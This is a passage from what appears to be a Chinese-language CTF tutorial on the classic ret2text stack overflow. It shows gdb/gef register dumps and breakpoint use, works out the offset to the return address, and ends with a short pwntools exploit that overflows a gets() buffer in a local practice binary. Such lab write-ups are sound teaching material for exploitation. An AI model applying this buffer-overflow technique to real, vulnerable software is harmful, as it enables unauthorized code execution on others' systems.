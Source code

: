 
&emsp;&emsp;若安装了插件输入`register`指令可以查看寄存器信息:

```sh
gef➤  register
$eax   : 0xf7f90dc8  →  0xffffd0cc  →  0xffffd2cc  →  "CLUTTER_IM_MODULE=fcitx"
$ebx   : 0x0       
$ecx   : 0xcab951ef
$edx   : 0xffffd054  →  0x00000000
$esp   : 0xffffcfa0  →  0x00000000
$ebp   : 0xffffd028  →  0x00000000
$esi   : 0xf7f8f000  →  0x001d9d6c
$edi   : 0xf7f8f000  →  0x001d9d6c
$eip   : 0x08048651  →  <main+9> mov eax, ds:0x804a060
$eflags: [zero CARRY PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
gef➤  
```
&emsp;&emsp;若没有安装插件则使用`print $eax`打印相关寄存器信息.
&emsp;&emsp;接着输入n或者s可以单步进行调试,他们的区别是:

- n: 假如有函数调用的话,会直接执行完毕该函数,然后继续单步执行
- s: 假如有函数调用的话,会进入函数然后继续单步执行

&emsp;&emsp;好的,我们可以一路按n跑到关键位置,也可以在关键位置下断点然后让程序停在那里:

```sh
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24      gets(buf);
────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

&emsp;&emsp;这里我们看到esp是 0xffffcd40,ebp 为具体的 payload 如下 0xffffcdc8，同时 s 相对于 esp 的索引为 `[esp+0x1c]`，所以，s 的地址为 0xffffcd5c，所以 s 相对于 ebp 的偏移为 0x6C，所以相对于返回地址的偏移为 0x6c+4。

exp如下:

```python
#!/usr/bin/python2
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```
